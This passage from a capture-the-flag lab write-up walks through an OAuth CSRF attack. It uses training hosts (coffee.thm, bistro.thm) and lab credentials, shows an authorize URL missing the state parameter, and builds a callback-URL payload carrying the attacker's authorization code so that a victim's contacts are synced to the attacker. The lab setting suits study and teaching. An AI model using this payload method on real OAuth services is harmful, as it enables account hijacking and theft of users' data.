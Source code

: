 - In the attached VM, to practically test it as a victim, log into the client app at [http://bistro.thm:8080/csrf/](http://bistro.thm:8080/csrf/) with the credentials `victim:victim`. For the sake of exercise, since the authorization code is unique, execute the attacker exploit (**link: http://bistro.thm:8080/csrf/callbackcsrf.php?code=xxxx**) by pasting it directly into the browser.
- As discussed above, the exact link sent to the victim is the **URL** parameter received during the **Preparing the Payload** process. Once executed, the code will make a call to get the access token and send contacts/messages to the attacker's account. 

![webpage showing dashboard and flag after successful compromise](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1722188695742.png)


#### Practical
---

Let's go to:

```
http://mycontacts.thm:8080/csrf/index.php
```

![](cybersecurity/images/Pasted%2520image%252020250505141307.png)

We need to login with:

```
attacker:attacker
```

We can see this:

![](cybersecurity/images/Pasted%2520image%252020250505141349.png)

We are able to sync contacts, if we click on it, we will receive the following URL:

```
http://coffee.thm:8000/o/authorize/?response_type=code&client_id=kwoy5pKgHOn0bJPNYuPdUL2du8aboMX1n9h9C0PN&redirect_uri=http%3A%2F%2Fmycontacts.thm%3A8080%2Fcsrf%2Fcallbackcsrf.php
```

As seen, the state parameter is missing, this is vulnerable to `CSRF`, `thm` provided an url we can go to:

```
http://coffee.thm:8000/o/authorize/?response_type=code&client_id=kwoy5pKgHOn0bJPNYuPdUL2du8aboMX1n9h9C0PN&redirect_uri=http://coffee.thm:8000/oauthdemo/callbackforcsrf/
```

We need to login using:

```
attacker:tesla@123
```

![](cybersecurity/images/Pasted%2520image%252020250505142503.png)



We get redirected to this site:

```json
http://coffee.thm:8000/oauthdemo/callbackforcsrf/?code=sXt1wzffQb0QUNwwVX1MBq3eKh86hF

	
code	"FxFPFSIEwigUfWXQPN0Jx4d9agzHJa"
Payload	"http://bistro.thm:8080/csrf/callbackcsrf.php?code=FxFPFSIEwigUfWXQPN0Jx4d9agzHJa"
```
